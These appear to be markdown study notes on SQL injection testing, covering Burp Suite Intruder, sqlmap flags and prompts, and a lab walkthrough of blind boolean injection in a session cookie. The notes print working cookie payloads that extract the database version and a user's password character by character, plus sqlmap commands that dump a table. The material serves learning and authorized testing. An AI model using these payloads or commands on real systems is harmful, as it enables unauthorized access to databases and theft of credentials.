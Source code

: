 
# 🕵️‍♂️ SQL Injection Deep Dive Notes

---

## 🎯 Tools and Techniques

### 🔍 Intruder Sniper in Burp Suite

#### What is Intruder Sniper in Burp?

- **Definition:**  
  A tool in Burp Suite primarily used for tasks like:
  - Brute forcing login forms and session tokens.
  - Parameter manipulation.
  - Testing for SQL injections and other vulnerabilities.

---

## 🛠️ sqlmap Detailed Usage

### Understanding sqlmap Commands and Flags

#### Command: `sqlmap -r req-slqi2.txt --level=2`
- **Flag: `-level=2`**
  - **Explanation:**  
    Specifies the depth of testing, with levels ranging from 1 to 5 (default is 1).  
    Level 2 enables more comprehensive tests, increasing thoroughness and vulnerability detection.

---

#### Command: `sqlmap -r req-slqi2.txt --level=2 --dump -T injection0x02`
- **Flag: `T`**
  - **Explanation:**  
    Focuses on a specific table in the database (`injection0x02`), targeting it for data extraction.

---

### Interaction and Prompts in sqlmap

1. **Prompt:**  
   _"Do you want to store hashes to a temporary file for eventual further processing with other tools [y/N]?"_
   - **Meaning:**  
     Save discovered password hashes for later use with other tools.
   - **Answer Choice:** `n` (no) - Opt not to save hashes during this session.

2. **Prompt:**  
   _"Do you want to crack them via a dictionary-based attack? [Y/n/q]?"_
   - **Meaning:**  
     Attempts to crack the hashes using a dictionary attack.
   - **Answer Choice:** `n` (no) - Decline to perform cracking at this stage.

3. **Prompt:**  
   _"Do you want to URL encode cookie values (implementation specific)? [Y/n]"_
   - **Meaning:**  
     URL encode cookie values if necessary for HTTP transmission.
   - **Answer Choice:** `n` (no) - Skip URL encoding.

---

## 🔍 Lab Solution: Detecting SQL Injection in Cookies

### 1️⃣ **Investigating Application Behavior**
- Monitor all GET requests in Burp Suite Proxy.
- Test for SQL injection in cookies, as manual injection and fuzzing failed elsewhere.

---

### 2️⃣ **Analyzing Cookie Behavior**
- Example Cookie:  
  ```
  Cookie: session=6967cabefd763ac...57db
  ```
- **Baseline Test:**  
  - Send an invalid cookie to observe response differences.
  - Valid cookie response: `Content-Length = 1027`.  
  - Invalid cookie response: `Content-Length = 1928`.  
- **SQL Injection Test:**  
  ```
  Cookie: session=6967cabefd763ac...57db' and 1=1#
  ```
  - Response: `Content-Length = 1027` (accepted).  
    This confirms the cookie is vulnerable.

---

### 3️⃣ **Extracting Information**
- Use conditional SQL queries to retrieve data step by step:
  - Example:  
    ```
    Cookie: session=6967cabefd763ac...57db' and substring((select version()), 1, 5) = '8.0'#
    ```
  - Gradually reveal version details:  
    ```
    8.0.3
    ```

---

### 4️⃣ **Fuzzing with Burp Suite Intruder**
- Automate the process using Intruder:
  ```
  Cookie: session=6967cabefd763ac...57db' and substring((select password from injection0x02 where username='jessamy'), 1, 1) = 'b'#
  ```
- Use a payload of all possible characters to find matches based on response differences.

---

### 5️⃣ **Using sqlmap for Automation**
- Command:
  ```bash
  sqlmap -r req-slqi2.txt --level=2 --dump -T injection0x02
  ```
- Automates the detection and extraction process, revealing the vulnerable cookie and data.

---

## 🔄 Best Practices for Ethical Testing

- **Stay Within Limits:**  
  Avoid exceeding bug bounty limits (e.g., 5 requests/second).
- **Use Legal and Ethical Tools:**  
  Only test applications you have explicit authorization for.
- **Automate Wisely:**  
  Use tools like sqlmap judiciously to minimize unnecessary requests.

---

This deep dive demonstrates the power of both manual and automated SQL injection testing, emphasizing the importance of ethical and efficient practices.
